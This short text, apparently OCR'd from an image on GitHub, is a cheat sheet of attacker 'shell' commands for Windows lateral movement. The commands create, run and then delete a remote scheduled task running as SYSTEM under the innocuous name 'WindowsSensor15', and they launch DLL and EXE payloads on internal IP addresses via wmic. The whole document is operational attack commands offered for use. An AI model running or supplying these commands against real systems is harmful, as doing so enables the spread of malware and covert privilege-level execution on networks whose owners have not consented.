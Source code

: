 # Run a payload using SCHTASKS
```
shell SCHTASKS /s ip\hostname /RU "SYSTEM" /create /tn "WindowsSensor15" /tr "cmd.exe /c C:\ProgramData\P32.exe" /sc ONCE /sd 01/01/1970 /st 00:00
shell SCHTASKS /s ip\hostname /run /TN "WindowsSensor15"
shell schtasks /S ip\hostname /TN "WindowsSensor15" /DELETE /F
```
# launching dll payload looks like this
```
shell wmic /node:172.16.0.36 process call create "rundll32.exe C:\ProgramData\p64.dll StartW"
```
# Executing the payload EXE
```
shell wmic /node:10.28.0.3 process call create "C:\ProgramData\j1.exe"
```
